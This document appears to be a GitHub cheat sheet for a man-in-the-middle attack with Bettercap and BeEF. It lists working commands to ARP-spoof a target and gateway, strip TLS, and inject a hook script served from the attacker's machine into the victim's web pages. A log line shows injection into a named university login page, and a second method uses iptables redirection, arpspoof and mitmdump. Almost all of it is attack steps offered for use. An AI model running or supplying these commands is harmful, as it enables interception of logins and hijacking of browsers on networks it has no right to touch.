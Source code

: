 
# Bettercap Cheat Sheet

## First Approach

1. Start beef-xss:
   ```bash
   sudo beef-xss
   ```

2. Run Bettercap with the specified network interface:
   ```bash
   bettercap -iface eth0
   ```

3. Enable network probing:
   ```bash
   net.probe on
   ```

4. Choose your target and disable network probing:
   ```bash
   net.probe off
   ```

5. Set ARP spoof targets and other configurations:
   ```bash
   set arp.spoof.targets TargetIP,GateawayIP,GateawayIP,TargetIp
   set http.proxy.sslstrip true
   set https.proxy.sslstrip true
   set http.proxy.injectjs http://MyIP:3000/hook.js
   set https.proxy.injectjs http://MyIP:3000/hook.js
   ```

6. Enable ARP spoofing, HTTP/HTTPS proxy, and network sniffing:
   ```bash
   arp.spoof on
   http.proxy on
   https.proxy on
   net.sniff on
   ```

7. Monitor the logs to see JavaScript injection:
   ```
   [sys.log] [inf] https.proxy > injecting javascript (87 bytes) into moodle.cs.ucy.ac.cy/login/index.php (27019 bytes) for TargetIP
   ```

> Note: If the device is not hooked on the beef-xss dashboard, proceed with the second approach.

## Second Approach

1. Start beef-xss:
   ```bash
   sudo beef-xss
   ```

2. Enable IP forwarding:
   ```bash
   sudo sysctl -w net.ipv4.ip_forward=1
   ```

3. Set up iptables rules:
   ```bash
   sudo iptables -A FORWARD --in-interface [iface] -j ACCEPT
   sudo iptables -t nat -A PREROUTING -i [iface] -p tcp --dport 80 -j REDIRECT --to-port 8080
   ```

4. Run ARP spoofing:
   ```bash
   arpspoof -i [iface] -t [victim-ip] [gateway-ip]
   arpspoof -i [iface] -t [gateway-ip] [victim-ip]
   ```

5. Start mitmdump with a custom script:
   ```bash
   mitmdump --mode transparent -s js_injector.py
   ```

## js_injector.py

Use the `js_injector.py` file in the git repository.
